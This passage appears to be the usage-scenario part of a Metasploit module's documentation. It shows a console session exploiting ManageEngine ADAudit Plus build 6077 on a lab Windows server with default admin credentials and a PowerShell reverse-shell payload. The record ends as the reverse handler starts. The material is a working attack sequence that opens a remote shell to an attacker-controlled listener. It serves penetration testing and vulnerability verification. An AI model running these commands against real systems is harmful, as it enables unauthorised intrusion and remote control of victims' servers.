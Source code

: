 ### ManageEngine ADAudit Plus build 6077 running on Windows Server 2022 - Powershell Payload
```
msf6 > use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set RHOSTS 192.168.204.132
RHOSTS => 192.168.204.132
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set LHOST 192.168.204.128
LHOST => 192.168.204.128
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > show options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.204.132             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.204.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > check

[*] Using configured authentication domain alias DAFOREST.
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[*] 192.168.204.132:8081 - The target appears to be vulnerable. The target is ADAudit Plus 6077
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias DAFOREST.
```